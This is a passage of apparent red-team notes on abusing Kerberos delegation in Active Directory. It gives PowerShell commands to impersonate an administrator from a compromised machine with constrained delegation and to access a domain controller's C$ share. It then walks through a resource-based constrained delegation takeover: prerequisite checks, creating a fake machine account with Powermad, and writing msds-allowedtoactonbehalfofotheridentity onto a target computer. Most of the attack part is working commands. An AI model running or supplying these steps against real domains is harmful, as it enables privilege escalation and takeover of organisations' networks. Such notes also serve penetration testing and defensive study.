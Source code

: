 - Via computer account: If you have compromised a machine account (i.e SYSTEM level privileges on a machine) that is configured with constrained delegation, you can assume any identity in the AD domain and authenticate to services that the compromised machine is trusted to delegate to. e.g WS02 is trusted to delegate to DC01 for CIFS and LDAP services
```
# Check for computers with such delegation
Get-NetComputer ws02 | select name, msds-allowedtodelegateto, useraccountcontrol | fl
Get-NetComputer ws02 | Select-Object -ExpandProperty msds-allowedtodelegateto | fl

# impersonate administrator@offense.local and access DC
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name

ls \\<dc>\c$
```

### Resource-based Constrained Delegation: Computer Object Takeover
  1. https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
  2. It’s possible to gain code execution with elevated privileges on a remote computer if you have WRITE privilege on that computer’s AD object.
  3. Kerberos Delegation vs Resource Based Kerberos Delegation
   - In unconstrained and constrained Kerberos delegation, a computer/user is told what resources it can delegate authentications to;
   - In resource based Kerberos delegation, computers (resources) specify who they trust and who can delegate authentications to them.
        
4. Check if attackable
```
# Check if the user is allowed to create new computers, i.e ms-ds-machineaccountquota
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local

# check DC is at least Windows Server 2012
Get-DomainController

# Check the target computer WS01 object must not have the attribute msds-allowedtoactonbehalfofotheridentity set:
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

5. Attack
```
# create a new computer object for our computer FAKE01. this is the computer that will be trusted by our target computer WS01 later
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '<pass>' -AsPlainText -Force) -Verbose

# Check FAKE01 is created and the SID
Get-DomainComputer fake01
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1154

# Create a new raw security descriptor for the FAKE01 computer principal:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Applying the security descriptor bytes to the target WS01 machine
# Ensure the user is able to WRITE to the target AD object
Get-DomainComputer ws01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```